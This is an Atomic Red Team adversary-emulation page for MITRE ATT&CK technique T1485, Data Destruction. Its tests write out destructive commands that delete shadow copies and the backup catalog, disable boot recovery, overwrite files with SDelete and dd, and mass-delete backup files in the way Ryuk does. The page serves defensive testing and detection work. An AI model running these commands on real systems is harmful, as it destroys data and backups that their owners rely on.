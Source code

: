 # T1485 - Data Destruction
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1485)
<blockquote>Adversaries may destroy data and files on specific systems or in large numbers on a network to interrupt availability to systems, services, and network resources. Data destruction is likely to render stored data irrecoverable by forensic techniques through overwriting files or data on local and remote drives.(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018)(Citation: Talos Olympic Destroyer 2018) Common operating system file deletion commands such as <code>del</code> and <code>rm</code> often only remove pointers to files without wiping the contents of the files themselves, making the files recoverable by proper forensic methodology. This behavior is distinct from [Disk Content Wipe](https://attack.mitre.org/techniques/T1488) and [Disk Structure Wipe](https://attack.mitre.org/techniques/T1487) because individual files are destroyed rather than sections of a storage disk or the disk's logical structure.

Adversaries may attempt to overwrite files and directories with randomly generated data to make it irrecoverable.(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018) In some cases politically oriented image files have been used to overwrite data.(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)

To maximize impact on the target organization in operations where network-wide availability interruption is the goal, malware designed for destroying data may have worm-like features to propagate across a network by leveraging additional techniques like [Valid Accounts](https://attack.mitre.org/techniques/T1078), [Credential Dumping](https://attack.mitre.org/techniques/T1003), and [Windows Admin Shares](https://attack.mitre.org/techniques/T1077).(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Talos Olympic Destroyer 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Windows Backup Catalog](#atomic-test-2---windows---delete-windows-backup-catalog)

- [Atomic Test #3 - Windows - Disable Windows Recovery Console Repair](#atomic-test-3---windows---disable-windows-recovery-console-repair)

- [Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete](#atomic-test-4---windows---overwrite-file-with-sysinternals-sdelete)

- [Atomic Test #5 - macOS/Linux - Overwrite file with DD](#atomic-test-5---macoslinux---overwrite-file-with-dd)

- [Atomic Test #6 - Windows - Delete Backup Files](#atomic-test-6---windows---delete-backup-files)


<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
vssadmin.exe delete shadows /all /quiet
```






<br/>
<br/>

## Atomic Test #2 - Windows - Delete Windows Backup Catalog
Deletes Windows Backup Catalog. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
wbadmin.exe delete catalog -quiet
```






<br/>
<br/>

## Atomic Test #3 - Windows - Disable Windows Recovery Console Repair
Disables repair by the Windows Recovery Console on boot.
This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```


#### Cleanup Commands:
```
bcdedit.exe /set {default} bootstatuspolicy DisplayAllFailures
bcdedit.exe /set {default} recoveryenabled yes
```




<br/>
<br/>

## Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete
Overwrites and deletes a file using Sysinternals SDelete.
Requires the download of either Sysinternals Suite or the individual SDelete utility.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_to_overwrite | Path of file to overwrite and remove | Path | C:\some\file.txt|
| sdelete_exe | Path of sdelete executable | Path | PathToAtomicsFolder\T1485\bin\sdelete.exe|


#### Attack Commands: Run with `command_prompt`! 
```
#{sdelete_exe} #{file_to_overwrite}
```



#### Dependencies:  Run with `powershell`!
##### Description: Secure delete tool from Sysinternals must exist on disk at specified location (#{sdelete_exe})
##### Check Prereq Commands:
```
if (Test-Path #{sdelete_exe}) {0} else {1} 
```
##### Get Prereq Commands:
```
Invoke-WebRequest "https://download.sysinternals.com/files/SDelete.zip" -OutFile "$env:TEMP\SDelete.zip"
Expand-Archive $env:TEMP\SDelete.zip $env:TEMP\Sdelete -Force
New-Item #{sdelete_exe} -Force | Out-Null
Copy-Item $env:TEMP\Sdelete\sdelete.exe #{sdelete_exe} -Force
```




<br/>
<br/>

## Atomic Test #5 - macOS/Linux - Overwrite file with DD
Overwrites and deletes a file using DD.
To stop the test, break the command with CTRL/CMD+C.

**Supported Platforms:** CentOS, Linux, macOS, Ubuntu


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| overwrite_source | Path of data source to overwrite with | Path | /dev/zero|
| file_to_overwrite | Path of file to overwrite and remove | Path | /var/log/syslog|


#### Attack Commands: Run with `bash`! 
```
dd of=#{file_to_overwrite} if=#{overwrite_source}
```






<br/>
<br/>

## Atomic Test #6 - Windows - Delete Backup Files
Deletes backup files in a manner similar to Ryuk ransomware.

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`! 
```
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
```






<br/>
